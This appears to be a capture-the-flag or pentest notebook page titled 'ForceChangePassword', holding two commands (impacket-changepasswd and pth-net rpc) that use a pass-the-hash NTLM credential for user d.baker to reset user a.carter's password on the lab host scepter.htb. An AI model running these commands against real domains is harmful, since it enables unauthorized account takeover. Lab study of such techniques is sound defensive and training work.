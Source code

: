 # ForceChangePassword

{% code overflow="wrap" fullWidth="true" %}
```
impacket-changepasswd 'scepter.htb'/'a.carter'@10.10.11.65 -reset -altuser 'd.baker' -althash :'18b5fb0d99e7a475316213c15b6f22ce'
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```
pth-net rpc password "a.carter" "newP@ssword2022" -U "scepter.htb"/"d.baker"%"aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce" -S "10.10.11.65" 
```
{% endcode %}
